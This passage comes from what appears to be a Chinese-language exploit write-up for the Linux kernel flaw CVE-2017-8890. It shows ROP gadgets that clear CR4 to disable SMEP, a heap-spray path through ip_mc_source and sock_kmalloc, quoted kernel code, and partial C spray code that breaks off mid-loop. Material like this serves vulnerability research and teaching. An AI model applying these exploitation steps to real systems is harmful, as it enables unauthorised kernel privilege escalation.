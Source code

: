 ## 三、绕过SMEP

#### （1）绕过SMEP

思路：`stack pivot`采用`xchg eax, esp`这个gadget来跳转到用户空间所布置的ROP链。通过以下两个gadget来修改cr4寄存器的第20位，改为0则关闭SMEP。关闭SMEP后即可跳转到用户空间的shellcode。

```asm
pop rdi; ret
mov cr4, rdi; pop rbp; ret
```

#### （2）堆喷

**要求**：这次不能修改内核，利用已有的对象进行堆喷。要求堆喷大小为64字节，且能控制前8字节，其他字节的值不影响内核执行流程。

**堆喷路径**：sendmmsg堆喷失败，无法控制前8个字节。最后在`sock_malloc`的调用图中找到一条合适的调用路径。

![2-heap spray path](/images/posts/CVE-2017-8890/2-heap spray path.png)

[`ip_mc_source()`](https://elixir.bootlin.com/linux/v4.10.15/source/net/ipv4/igmp.c#L2302) -> [`sock_kmalloc()`](https://elixir.bootlin.com/linux/v4.10.15/source/net/core/sock.c#L1790)  调试发现这里刚好分配64字节堆块，且前8字节固定为`0x000000010000000a`，其他字节为0不影响内核执行流程。虽然前8字节不可控，但这是能够通过mmap获取到的用户地址空间，因此该堆喷方法可行。

```c
	if (!psl || psl->sl_count == psl->sl_max) {
		struct ip_sf_socklist *newpsl;
		int count = IP_SFBLOCK;

		if (psl)
			count += psl->sl_max;
		newpsl = sock_kmalloc(sk, IP_SFLSIZE(count), GFP_KERNEL);
		if (!newpsl) {
			err = -ENOBUFS;
			goto done;
		}
		newpsl->sl_max = count;
		newpsl->sl_count = count - IP_SFBLOCK;
		if (psl) {
```

**堆喷代码**：需修改用户空间伪造`ip_mc_socklist`结构的地址。

```c
#define Heap_Spray_Addr            0x000000010000000a
int sockfd[SPRAY_SIZE];
void spray_init() {
    struct sockaddr_in server_addr;
    struct group_req group;
    struct sockaddr_in *psin=NULL;

    memset(&server_addr,0,sizeof(server_addr));
    memset(&group,0,sizeof(group));

    bzero(&server_addr,sizeof(server_addr));
    server_addr.sin_family = AF_INET;
    server_addr.sin_addr.s_addr = htons(INADDR_ANY);
    server_addr.sin_port = htons(HELLO_WORLD_SERVER_PORT);

    psin = (struct sockaddr_in *)&group.gr_group;
    psin->sin_family = AF_INET;
    psin->sin_addr.s_addr = htonl(inet_addr("10.10.2.224"));

    for(int i=0; i<SPRAY_SIZE; i++) {
        if ((sockfd[i] = socket(PF_INET6, SOCK_STREAM, 0)) < 0) {      
           perror("Socket");
           exit(errno);
```